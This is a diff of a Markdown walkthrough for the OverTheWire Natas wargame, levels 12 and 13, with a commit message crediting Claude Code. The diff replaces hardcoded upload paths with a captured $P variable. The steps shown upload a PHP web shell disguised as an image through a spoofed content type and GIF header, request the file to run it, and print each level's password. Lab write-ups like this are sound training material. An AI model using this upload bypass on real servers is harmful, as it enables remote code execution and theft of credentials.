

Before and after one commit to jaher/overthewire-solutions, a Markdown page: natas-solutions.md, 2 parts joined by grey strips. Drawn GitHub-style.

Commit message:
Natas L12/L13: use the $P upload path the transcript captures
Co-Authored-By: Claude Code <noreply@anthropic.com>

````diff
--- a/natas-solutions.md
+++ b/natas-solutions.md
@@ -459,10 +459,10 @@ Verification rule used throughout: a password is accepted only if a request to
    ```
    curl -s -u natas12:<pw> -F 'filename=shell.php' -F 'uploadedfile=@/tmp/n12shell.php;type=image/jpeg' http://natas12.natas.labs.overthewire.org/index.php
    ```
-   The response contains the stored path, e.g. `upload/t7fve9ekok.php`; the recording extracts it with `grep -o 'upload/[a-z0-9]*\.php'`.
+   The response contains the stored path (`upload/9jfrl8ytt3.php` in this run); the command captures it into `$P` with `grep -o 'upload/[a-z0-9]*\.php'`.
 4. **Request the uploaded file.** The web server executes `.php` files, so the code runs with the web server's privileges and prints the password:
    ```
-   curl -s -u natas12:<pw> http://natas12.natas.labs.overthewire.org/upload/t7fve9ekok.php
+   curl -s -u natas12:<pw> "http://natas12.natas.labs.overthewire.org/$P"
    ```
 5. **Verify.** `curl -u natas13:g8ba0olAzaSJuyS4gnmbdVVigAICLG1k http://natas13.natas.labs.overthewire.org/` → HTTP 200.
 - **Password for natas13:** `g8ba0olAzaSJuyS4gnmbdVVigAICLG1k`
@@ -502,10 +502,10 @@ Verification rule used throughout: a password is accepted only if a request to
    ```
    curl -s -u natas13:<pw> -F 'filename=shell.php' -F 'uploadedfile=@/tmp/n13shell.php;type=image/gif' http://natas13.natas.labs.overthewire.org/index.php
    ```
-   The stored path this run is `upload/up58risls8.php`.
+   The stored path this run is `upload/j4s3gicm9m.php` (captured into `$P`).
 5. **Request the stored file.** PHP ignores the leading GIF bytes (they are output, harmless) and executes the `<?php ... ?>` that follows:
    ```
-   curl -s -u natas13:<pw> http://natas13.natas.labs.overthewire.org/upload/up58risls8.php
+   curl -s -u natas13:<pw> "http://natas13.natas.labs.overthewire.org/$P"
    ```
 6. **Verify.** `curl -u natas14:A0xXu2x9FW8rb8OSQ4ei6n5VBbLUz8h8 http://natas14.natas.labs.overthewire.org/` → HTTP 200.
 - **Password for natas14:** `A0xXu2x9FW8rb8OSQ4ei6n5VBbLUz8h8`
````
